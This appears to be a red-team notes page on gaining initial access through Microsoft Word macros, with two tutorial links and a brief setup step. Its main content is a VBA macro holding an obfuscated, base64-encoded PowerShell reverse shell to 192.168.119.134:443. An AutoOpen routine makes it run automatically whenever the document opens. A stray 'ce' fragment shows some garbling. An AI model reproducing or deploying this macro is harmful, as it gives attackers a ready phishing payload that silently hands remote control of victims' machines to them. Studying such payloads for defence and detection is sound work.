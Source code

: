 ### Macros

[https://www.thedecentshub.tech/2021/08/reverse-shell-from-word-documents.html?m=1](https://www.thedecentshub.tech/2021/08/reverse-shell-from-word-documents.html?m=1)

[https://redtm.com/initial-access/microsoft-word-macro-payload/](https://redtm.com/initial-access/microsoft-word-macro-payload/)

> Open MSWord **File → Options → Customize Ribbon → Enable Developer Options**
> 

```bash
Sub processing()
'
' processing Macro
'
'
    Dim Str As String
    
    Str = Str + "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAt"
    Str = Str + "AE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF"
    Str = Str + "MAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIA"
    Str = Str + "MQA5ADIALgAxADYAOAAuADEAMQA5AC4AMQAzADQAIgAsADQANA"
    Str = Str + "AzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBu"
    Str = Str + "AHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AG"
    Str = Str + "UAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUA"
    Str = Str + "MwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQ"
    Str = Str + "AgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABl"
    Str = Str + "AHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AG"
    Str = Str + "gAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0A"
    Str = Str + "IAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATg"
    Str = Str + "BhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBD"
    Str = Str + "AEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAG"
    Str = Str + "kAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQA"
    Str = Str + "cwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQ"
    Str = Str + "B0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBu"
    Str = Str + "AGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAH"
    Str = Str + "MAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAA"
    Str = Str + "KABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJA"
    Str = Str + "BzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBl"
    Str = Str + "AG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAG"
    Str = Str + "UAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkA"
    Str = Str + "OwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbg"
    Str = Str + "BkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBM"
    Str = Str + "AGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AH"
    Str = Str + "MAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUA"
    Str = Str + "KAApAA=="
ce    
    CreateObject("Wscript.shell").Run Str

End Sub
Sub AutoOpen()
    processing
End Sub
```

